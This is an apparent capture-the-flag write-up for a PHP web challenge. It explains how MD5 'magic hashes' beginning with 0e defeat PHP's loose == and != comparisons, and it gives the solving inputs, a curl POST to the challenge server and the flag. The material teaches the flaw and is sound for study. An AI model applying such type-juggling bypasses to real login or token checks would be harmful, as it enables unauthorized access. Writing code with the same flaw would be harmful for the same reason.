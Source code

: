 # Web CTF Final Unicorns

```php
if (!array_key_exists('val1', $_POST)
 || !array_key_exists('val2', $_POST)) {
    echo "Please send the inputs correctly\n";
    exit(0);
}

$first  = $_POST['val1'];
$second = $_POST['val2'];

if (!(is_numeric($first) || is_numeric($second))) {
    echo "Invalid input\n";
    exit(0);
}

$hash1 = hash('md5', $first,  false);
$hash2 = hash('md5', $second, false);

// First check: loose inequality
if ($hash1 != $hash2) {
    // Replace letters a–d → digits 0–3
    $hash1 = strtr($hash1, "abcd", "0123");
    $hash2 = strtr($hash2, "abcd", "0123");

    // Second check: loose equality
    if ($hash1 == $hash2) {
        echo $flag;  // FLAG!
    } else {
        echo "Hard luck :(\nKeep trying\n";
    }
} else {
    echo "Hard luck :(\nKeep trying\n";
}
```

- At least one of val1 or val2 must be numeric.
- Both inputs are MD5‑hashed (hex, lowercase).

Loose Comparison

- First: `if ($hash1 != $hash2)` uses PHP’s loose **!=**.
- Second: after mapping **a→0, b→1, c→2, d→3**, tests `if ($hash1 == $hash2)` with loose **==**.

The “Magic Hash” Trick
In PHP, when you compare two strings using `==/!=`, if they look like valid decimal floats (including scientific notation), PHP casts them to floats before comparing. Specifically, any string of the form: **0e<digits>**

is interpreted as `0 × 10^<digits>` → the numeric value 0.

Example MD5 collisions of the form 0e…

```
md5("240610708") == "0e462097431906509019562988736854"
md5("QNKCDZO")   == "0e830400451993494058024219903391"
```

Both are distinct hex‐strings, yet each begins with “0e” followed by only digits.

## Solution

### Input #1: 240610708

```text
md5("240610708")  
  = 0e462097431906509019562988736854
```

Already a “0e…” string → numeric‐string.


### Input #2: 871

```text
md5("871")  
  = aeb3135b436aa55373822c010763dd54
```
  
Not numeric → first comparison sees them as different strings ("0e…" != "ae…" → TRUE).

After `strtr("abcd"→"0123")`:

```text
aeb3135b436aa55373822c010763dd54
  → 0e131351436005537382220107633354
```

which is again of the form “0e…” (all digits after “e”), so the loose second comparison casts both to 0 → equal.

```bash
curl -s -X POST http://ctf-13.security.cs.pub.ro:8000/ \
     -d 'val1=240610708&val2=871'
```
     
Observe the output: **SSS{un1c0rns_3at_m4g1c_h4sh3s}**
